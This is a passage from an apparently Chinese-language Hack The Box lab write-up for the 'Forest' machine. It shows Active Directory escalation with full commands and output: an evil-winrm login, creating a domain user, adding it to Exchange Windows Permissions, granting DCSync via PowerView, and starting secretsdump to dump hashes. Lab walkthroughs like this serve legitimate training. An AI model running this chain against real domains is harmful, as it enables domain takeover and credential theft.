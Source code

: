 ```

我们可以把```svc-alfresco```添加到```Exchange Windows Permissions```，也可以新创建一个用户（我们有创建域用户的权限），再把用户添加进```Exchange Windows Permissions```
为了不影响其他使用这台靶机的人员，我们选择新创建用户，步骤如下：


1. 添加一个域用户```max```，密码是：```max@123456 ```
```net user max max@123456 /add /domain```

2. 把用户```max```添加进```Exchange Windows Permissions```组里
```net group "Exchange Windows Permissions" /add max```

3. 以下操作需要先引入 PowerView.ps1，可以在evil-winrm登录的时候指定-s参数引入，也可以把PowerView.ps1下载到本地
```
$pass = convertto-securestring 'max@123456' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('htb\max', $pass)
```
4. 把```DCSync```的权限赋予域用户```max```
```Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity max -Rights DCSync```


操作如下
```
 ┌──(root💀kali)-[~/htb/Forest]
└─# evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' -s '/root/PowerSploit/Recon'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> PowerView.ps1

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user max max@123456 /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" /add max
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 'max@123456' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = New-Object System.Management.Automation.PSCredential ('htb\max', $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity max -Rights DCSync
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 

 ```

现在我们已经有了DCSync的权限，可以使用secretsdump.py导出所有用户哈希，下面我只截取有有的信息

```
 ┌──(root💀kali)-[~/htb/Forest]
└─# python3 /root/impacket-master/examples/secretsdump.py htb.local/max:max@123456@10.10.10.161
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
